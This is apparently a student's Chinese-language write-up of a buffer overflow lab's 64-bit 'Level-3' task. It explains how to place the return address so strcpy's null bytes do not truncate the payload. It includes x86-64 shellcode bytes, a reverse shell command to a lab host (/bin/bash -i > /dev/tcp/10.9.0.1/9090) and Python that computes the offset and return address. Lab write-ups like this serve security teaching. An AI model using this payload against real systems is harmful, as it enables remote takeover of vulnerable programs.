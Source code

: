 

## Task 4: Level-3 Attack

地址改成 64 位的难点在于开头存在两个字节的 0，调用 `strcpy` 将 `content` 复制进 `buffer` 时会在 `ret` 地址处截断。所以采用以下方法构造 `content`：

- `ret` 地址放在字符串末尾，采用小端法放置（高位对应高地址），将地址开头的 0 作为字符串结尾标志
- `shellcode` 在 `content` 中直接从 0 开始
- `ret` 跳转位置为 `buffer` 起始位置，直接开始执行 `shellcode`

具体构造方法如下：

- 获取本主机的 IP 地址、`rbp` 的值、`buffer` 起始位置的值：

  ![屏幕截图(246)](C:\Users\杨乙\Pictures\Screenshots\屏幕截图(246).png)

- 设置 `shellcode`，与 shellcode_64.py 中的值相同即可，将命令改为：

  ```
  /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1
  ```

- `start` 设置为 `0`，令 `shellcode` 占据 `content` 前半部分

- 返回地址 `ret` 要放在 `rbp` 的前一个位置，因此 `offset` 的值为 `rbp 指向地址 - buffer 起始地址 + 0x8`

- `ret` 指向的位置为 shellcode 开始的位置及之前，即 `buffer` 起始位置 `0x00007fffffffe0d0`，且采用小端法，将地址开头的 0 作为字符串结尾标志

此时程序栈的结构如下：

<img src="C:\Users\杨乙\Pictures\Screenshots\3ae65b6b72594b7c2842f01de913e2a.jpg" alt="3ae65b6b72594b7c2842f01de913e2a" style="zoom:25%;" />

程序改动如下：

```python
shellcode= (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         * 
   "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1           *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

# ......

start = 0                                          # Change this number 

# ......

ret    = 0x00007fffffffe0d0     		   # Change this number 
offset = 0x00007fffffffe1a0 - 0x00007fffffffe0d0 + 0x8

content[offset:offset + 8] = (ret).to_bytes(8,byteorder='little')
```

